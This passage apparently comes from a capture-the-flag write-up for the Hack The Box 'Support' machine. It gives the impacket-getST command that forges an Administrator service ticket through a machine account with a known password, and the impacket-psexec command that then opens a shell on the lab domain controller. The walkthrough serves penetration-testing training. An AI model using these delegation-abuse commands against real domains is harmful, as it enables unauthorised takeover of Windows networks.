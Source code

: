 After that impacket-getST can create a new service ticket that will allow us to impersonate the Administrator user on DC. You'll also need to set an environmental variable named KRB5CCNAME that points to the newly created Administrator.ccache file.

NOTE: If you already have the KRB5CCNAME environmental variable set before you run the impacket-getST command it will produce an error message saying whichever file it's set to can't be found so make sure to unset the variable before running impacket-getST.

`impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.129.191.83 support/newcomp$:Password1`

![](images2/support13.png)

<br>

## System

Now we can connect over as the Administrator user using impacket-psexec:

`impacket-psexec -k dc.support.htb`

![](images2/support14.png)
